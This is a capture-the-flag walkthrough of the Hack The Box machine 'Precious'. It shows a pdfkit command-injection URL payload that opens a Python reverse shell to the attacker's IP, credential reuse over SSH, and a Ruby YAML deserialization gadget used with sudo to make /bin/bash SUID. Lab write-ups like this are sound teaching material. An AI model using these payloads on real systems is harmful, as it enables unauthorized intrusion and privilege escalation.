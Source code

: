 # HTB - Precious

For start, i'll run nmap scan on all ports of the machine:
```bash
nmap 10.10.11.189 -p-
```
I found that ports 22 (ssh) and 80 (http) are open.
I will run another nmap scan for deeper look on this ports:
```bash
nmap -A 10.10.11.189 -p 22, 80
```

![image](https://user-images.githubusercontent.com/114166939/225315053-fbb7090c-6dac-4930-a86b-e5dd9dfca859.png)

It seems that there is nothing interesting about the ssh, but there is a website on the domain "http://precious.htb/" which works on nginx 1.18.0.

Now, before i'll try to open the website page, i'll add the domain to the /etc/hosts file.
```bash
nano /etc/hosts
```
![image](https://user-images.githubusercontent.com/114166939/225313538-ccb7e436-9d80-47cf-8873-baf4032e4875.png)

Now the website appears!

![image](https://user-images.githubusercontent.com/114166939/225313809-d39cc651-8fb8-43e8-ba52-4e2a4b3cc801.png)

The edit text does'nt getting any remote url, so i'll try a local one.

I'll open an python3 web server on my machine.
```bash
python3 -m http.server
```
And now I can write in the edit box at the web page the following url: 
"http://[MY-IP]:8000"

I got a screen-shot of my python3 server as a PDF file.

![image](https://user-images.githubusercontent.com/114166939/225316684-a2b9fc4d-b9cb-41e8-bbc1-8121afb38f6a.png)

I will save this screen-shot as a file on my machine and now i'll try to analyze it with exiftool:
```bash
exiftool 68ci7ek2mcv3lsdmyup77rgd2gbv1e3d.pdf 
```

![image](https://user-images.githubusercontent.com/114166939/225317837-a4bbd9a8-b25f-4836-9c7c-d0ed7f6c8f1e.png)

The creator of this file called "pdfkit v0.8.6", that's the tool the server use to make the pdf files.

There is a known command injection exploit on this tool - i'll use an exploit from this website: https://security.snyk.io/vuln/SNYK-RUBY-PDFKIT-2869795

![image](https://user-images.githubusercontent.com/114166939/225319623-001804a0-bbe6-4673-8018-1baf4dd043e2.png)

First, i'll try to force the website a 5 seconds delay, also, I will use the python3 server again:
```bash
http://[MY-IP]:8000/?name=#{'%20`sleep 5`'}.to_pdf 
```
It works! now, I can change the sleep command for another command to get a reverse-shell on the machine:

Before i'll try to modify the injection command, i'll open netcat listener with the following line:
```bash
nc -lnvp 4567
```
Now, the new injection will change from sleep command to python3 ,url encoded, reverse shell command:
```bash
http://[MY-IP]:8000/?name=#{'%20`python3 -c 'import os,pty,socket;s=socket.socket();s.connect(("[MY-IP]",4567));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn("/bin/bash")'`'}.to_pdf
```

![image](https://user-images.githubusercontent.com/114166939/225328174-91a1b7dd-fdfa-4c25-b14e-1d91c8b6189c.png)

First, i'll search for some information on current user:

![image](https://user-images.githubusercontent.com/114166939/225333012-81439138-679f-4b18-b65e-10a8ad6b56b8.png)

![image](https://user-images.githubusercontent.com/114166939/225333607-a5d1aeb9-b480-4e58-8972-0f24571cba3c.png)

Also. i'll try find out which users there are on the machine:

![image](https://user-images.githubusercontent.com/114166939/225333916-049f591e-7408-442e-b437-ececc76fe188.png)

The flag is at henry's home directory and as the current user, ruby, I do'nt have access:

![image](https://user-images.githubusercontent.com/114166939/225334484-de30199a-6b96-405b-aa55-1071a5c3ee4f.png)

On ruby's home directory there is a hidden suspicious direcory called ".bundle", in it I found a file called "config".

The content of this file is henry's credentials!

![image](https://user-images.githubusercontent.com/114166939/225337296-47f43372-f10d-469d-a889-650f974dfc83.png)

I'll use this credentials to connect henry via ssh:
```bash
ssh henry@10.10.11.189
```
Success!

![image](https://user-images.githubusercontent.com/114166939/225338482-1ceadbc3-221c-4d04-9ff1-d39ad31a96d7.png)

From henry's user I can print user.txt and get the flag:

![image](https://user-images.githubusercontent.com/114166939/225341738-a71c81b8-7ad0-4b86-b35c-4d19bcbf178b.png)

Now im going to escalate the privileges from henry to root!
First i'll run a "sudo -l" command:

![image](https://user-images.githubusercontent.com/114166939/225344459-9825a004-cb6a-420c-aee6-3a0d4de09550.png)

Let's check "/opt/update_dependencies.rb" file:

![image](https://user-images.githubusercontent.com/114166939/225345307-a1620b31-9fbf-4186-8df7-0d4c3a7ce3da.png)

![image](https://user-images.githubusercontent.com/114166939/225349125-5ff2901d-2d49-405e-9654-436a15f06c05.png)

In the code I can see that it use a function called "YAML.load()" and it loads a file called dependencies.yml.
After searching online, I found this website - https://blog.stratumsecurity.com/2021/06/09/blind-remote-code-execution-through-yaml-deserialization/

In this website there is a yml code for bash command injection:
I'll change the "git_set:" option to test if it works and save it as "dependencies.yml" in henry's home directory:
(Any command running from this file will run as root permissions)
```yml
---
 - !ruby/object:Gem::Installer
     i: x
 - !ruby/object:Gem::SpecFetcher
     i: y
 - !ruby/object:Gem::Requirement
   requirements:
     !ruby/object:Gem::Package::TarReader
     io: &1 !ruby/object:Net::BufferedIO
       io: &1 !ruby/object:Gem::Package::TarReader::Entry
          read: 0
          header: "abc"
       debug_output: &1 !ruby/object:Net::WriteAdapter
          socket: &1 !ruby/object:Gem::RequestSet
              sets: !ruby/object:Net::WriteAdapter
                  socket: !ruby/module 'Kernel'
                  method_id: :system
              git_set: whoami
          method_id: :resolve 
```

And run:
```bash
sudo /usr/bin/ruby /opt/update_dependencies.rb
```

It works!

![image](https://user-images.githubusercontent.com/114166939/225352225-0d9b5b75-af30-43a6-84c3-ad6e1f2ff8e8.png)

Instead of "whoami" command i'll change the command for this:
```bash
chmod +s /bin/bash
```

So on "/bin/bash" will be SUID:
```bash
sudo /usr/bin/ruby /opt/update_dependencies.rb
```

![image](https://user-images.githubusercontent.com/114166939/225358387-20e3c0ea-a5ac-45b9-9fb0-25592872501e.png)

Now all that's left to do is running the command:
```bash
/bin/bash -p
```

![image](https://user-images.githubusercontent.com/114166939/225359267-b004b58a-c1cf-4974-b7f4-a90b55de79c4.png)

![image](https://user-images.githubusercontent.com/114166939/225359919-3ea38c37-2aaf-4903-b7c7-20d25e89ffd0.png)

